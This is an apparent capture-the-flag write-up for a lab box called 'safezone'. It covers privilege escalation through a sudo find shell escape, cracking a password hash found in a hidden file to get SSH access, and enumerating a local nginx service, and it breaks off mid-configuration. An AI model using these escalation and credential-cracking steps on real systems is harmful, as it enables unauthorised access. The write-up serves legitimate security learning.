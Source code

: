 `sudo -l` gives us :
```
User www-data may run the following commands on safezone:
    (files) NOPASSWD: /usr/bin/find
```

We first get access to `files` with
```
sudo -u files find . -exec /bin/sh \; -quit
```

There is a file `/home/files/.something#fake_can@be\^here `

```
files:$6$BUr7qnR3$v63gy9xLoNzmUC1dNRF3GWxgexFs7Bdaa2LlqIHPvjuzr6CgKfTij/UVqOcawG/eTxOQ.UralcDBS0imrvVbc.
```

Maybe a password hash ? Could get us a stable ssh shell.



Cracked the password with `john` :

```
files:magic
```

We now have a stable shell via ssh.



`sudo -l` gives us :

```
User files may run the following commands on safezone:
    (yash) NOPASSWD: /usr/bin/id
```

Welll, not much help. can't modify the binary, belongs to root...

`/opt/` permission denied, belongs to `yash` user



There is a `php-fpm`/`Nginx` service running as `yash`

I think it's running on port 8000



Looking at `/etc/nginx/nginx.conf` 

```
server {
        listen 127.0.0.1:8000 default_server;
        #listen [::]:8000 default_server;

        # SSL configuration
        #
        # listen 443 ssl default_server;
        # listen [::]:443 ssl default_server;
        #
        # Note: You should disable gzip for SSL traffic.
        # See: https://bugs.debian.org/773332
        #
        # Read up on ssl_ciphers to ensure a secure configuration.
        # See: https://bugs.debian.org/765782
        #
        # Self signed certs generated by the ssl-cert package
        # Don't use them in a production server!
        #
        # include snippets/snakeoil.conf;

        root /opt;

```